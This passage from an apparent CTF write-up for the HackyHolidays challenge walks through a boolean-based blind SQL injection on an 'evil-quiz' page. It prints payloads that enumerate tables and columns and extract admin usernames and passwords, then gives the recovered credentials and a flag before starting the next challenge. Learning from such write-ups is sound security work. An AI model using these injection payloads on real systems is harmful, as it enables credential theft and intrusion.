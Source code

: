 we can get the next letter by incrementing the 1, to a 2, in our substring() statement.

```
name = lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),2,1))>90#

TRUE

name = lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),2,1))<100#

FALSE

name = lol'+or+Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),2,1))=100#

TRUE
```
Converting 100 to ASCII character we got "d" . so  probably the table_name is "admin".
Now let's get the columns with the following query.
```
name =lol'+or+Ascii(substring((Select+concat(column_name)+from+information_schema.columns+where+table_name=0x61646d696e+limit+0,1),1,1))>0#
```
Keep doing the same way as above, so far we have the valid columns "username" and "passsword"

Getting username
```
name = lol'+or+Ascii(substring((Select+concat(username)+from+admin+limit+0,1),1,1))>0#
```
Getting password
```
name = lol'+or+Ascii(substring((Select+concat(password)+from+admin+limit+0,1),1,1))>0#
```
Now we have the username and password to login [admin panel](https://hackyholidays.h1ctf.com/evil-quiz/admin)
username = admin  
password = S3creT_p4ssw0rd-$

Upon logging with above credentials, we can see the flag finally.

{F1131251}

PS. Actually this challenge took me 5-6 hours to get the final flag because the server takes too long to response to the request.

>>Flag 9 -: flag{6e8a2df4-5b14-400f-a85a-08a260b59135}

**Day 10  - SignUp Manager**

https://hackyholidays.h1ctf.com/signup-manager/

At first sight, we're provided with simple SignUp and Login page.

By checking source code, found the comment 



Upon looking for README.md , we know file zip file path which might be included source codes.
